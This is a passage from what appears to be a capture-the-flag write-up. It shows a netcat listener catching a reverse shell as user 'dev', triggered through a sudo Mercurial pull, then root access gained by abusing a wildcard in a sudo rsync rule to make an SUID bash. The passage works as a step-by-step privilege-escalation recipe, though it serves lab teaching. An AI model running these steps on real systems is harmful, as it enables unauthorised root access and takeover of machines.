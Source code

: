 6. Start a listener\
`nc -nvlp <port>`

7. Activate the reverse shell by running the sudo command\
`sudo -u dev /usr/bin/hg pull /home/dev/app-production/`

![Activate Reverse Shell](images/activate_qa_dev_shell.png)

![Shell as dev](images/dev_revshell.png)

## Priv-Esc to root
After getting a shell as **dev**, I ran `sudo -l`.

`(root:root) NOPASSWD: /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* /opt/app/`

The wildcard `*` within the command means that I can add in extra `rsync` arguments.

#### Steps for Exploitation:
1. Change directory into the home driectory of the user **dev**\
`cd /home/dev/`

2. Copy the **/bin/bash** executable into **app-production/bash**\
`cp /bin/bash app-production/bash`

3. Make the copied **bash** executable an SUID binary\
`chmod u+s app-production/bash`

4. Run the sudo command with the added `--chown` rsync command\
`sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/`

5. Execute the new modified **bash** executable with **-p** to spawn a shell as **root**\
`/opt/app/bash -p`

![Dev to root Priv-Esc](images/dev_to_root_privesc.png)
